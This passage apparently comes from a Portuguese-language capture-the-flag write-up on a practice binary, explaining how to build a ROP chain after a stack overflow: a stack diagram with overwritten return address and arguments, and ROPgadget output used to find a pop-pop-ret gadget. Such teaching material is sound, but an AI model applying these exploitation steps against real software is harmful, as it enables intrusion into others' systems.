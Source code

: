 ### Gadgets

Gadgets são instruções que nos ajudam a controlar o fluxo do programa, neste caso precisamos de um gadget que execute um `pop; pop; ret;` por quê?

Nossa pilha está assim neste momento:

```raw
+++++++++++
higest addr
+==STACK==+
+++++++++++
+++++++++++
+++++++++++
+++++++++++
+         +
+         +
+         +   300                         FUNCTION 1 ARG2
+         +   0x9c                        FUNCTION 1 ARG1
+         +   JUNK                        JUNK FOR NOW
+   EIP   +   0x8049256                   FUNCTION 1 ADDREESS
+   EBP   +   AAAA                        EBP
+   VAR1  +   AAAAAAAAAAAAAAAAAAA...      BUFFER
+         +
+         +
+   ...   +
+   ...   +
+   ...   +
+   ESP   +
+         +
+++++++++++
lowest addr
+++++++++++
```

OK, quando a função 1 retornar, onde colocarmos o `JUNK` será nosso próximo `EIP`, mas como temos que passar argumentos para a próxima função, precisamos que o gadget retire os argumentos atuais da pilha para dar lugar a o próximo `EIP` e os argumentos. Portanto, temos que remover o arg1 e o arg2.

Vamos lembrar como é a segunda função e como obteremos o gadget.

<center><img src="post-assets/port-65144-ghidra-3.png" width="662" alt="ghidra" /></center>

Esta função recebe 3 argumentos, e os valores devem ser 1o argumento = `0` (zero), 2o e 3o argumentos = `0xd`

Para nos ajudar, vou instalar <a href="https://github.com/JonathanSalwan/ROPgadget" target="_blank">ROPGadget</a> que nos mostrará quais são os gadgets disponíveis.

```bash
reisraff@3dbbde46a935:.../port-65144$ python3 ROPgadget/ROPgadget.py --binary port-65144 | grep pop
0x080494cd : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0804949d : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804901f : add esp, 8 ; pop ebx ; ret
0x0804942e : clc ; pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x08049294 : inc dword ptr [ebx - 0x746fef3c] ; pop ebp ; cld ; leave ; ret
0x0804949c : jecxz 0x8049429 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x0804949b : jne 0x8049489 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804942c : lea esp, [ebp - 8] ; pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x08049020 : les ecx, ptr [eax] ; pop ebx ; ret
0x0804949e : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x0804949f : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x0804929a : pop ebp ; cld ; leave ; ret
0x08049431 : pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a3 : pop ebp ; ret
0x08049430 : pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a0 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
```